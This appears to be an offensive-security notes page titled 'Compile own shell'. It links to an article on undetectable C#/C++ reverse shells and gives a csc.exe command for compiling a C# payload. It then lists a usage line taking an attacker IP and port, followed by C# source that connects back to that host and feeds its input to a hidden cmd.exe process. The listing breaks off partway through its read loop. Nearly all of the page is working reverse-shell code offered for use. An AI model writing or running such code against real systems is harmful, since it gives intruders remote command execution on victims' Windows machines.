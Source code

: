 # Compile own shell
+ [undetectable C#&C++ reverse shells](https://bank-security.medium.com/undetectable-c-c-reverse-shells-fab4c0ec4f15)


## c# revershell

```bash
# compile
c:\windows\Microsoft.NET\Framework\v4.0.30319\csc.exe /t:exe /out:back2.exe C:\Users\Public\Documents\Back1.cs.txt

# use 
back.exe [attackip] [port]
```

**c# code**
```c#
using System;
using System.Text;
using System.IO;
using System.Diagnostics;
using System.ComponentModel;
using System.Linq;
using System.Net;
using System.Net.Sockets;


namespace ConnectBack
{
	public class Program
	{
		static StreamWriter streamWriter;

		public static void Main(string[] args)
		{
			using(TcpClient client = new TcpClient(args[0], System.Convert.ToInt32(args[1])))
			{
				using(Stream stream = client.GetStream())
				{
					using(StreamReader rdr = new StreamReader(stream))
					{
						streamWriter = new StreamWriter(stream);
						
						StringBuilder strInput = new StringBuilder();

						Process p = new Process();
						p.StartInfo.FileName = "cmd.exe";
						p.StartInfo.CreateNoWindow = true;
						p.StartInfo.UseShellExecute = false;
						p.StartInfo.RedirectStandardOutput = true;
						p.StartInfo.RedirectStandardInput = true;
						p.StartInfo.RedirectStandardError = true;
						p.OutputDataReceived += new DataReceivedEventHandler(CmdOutputDataHandler);
						p.Start();
						p.BeginOutputReadLine();

						while(true)
						{
							strInput.Append(rdr.ReadLine());
							//strInput.Append("\n");
							p.StandardInput.WriteLine(strInput);
							strInput.Remove(0, strInput.Length);
```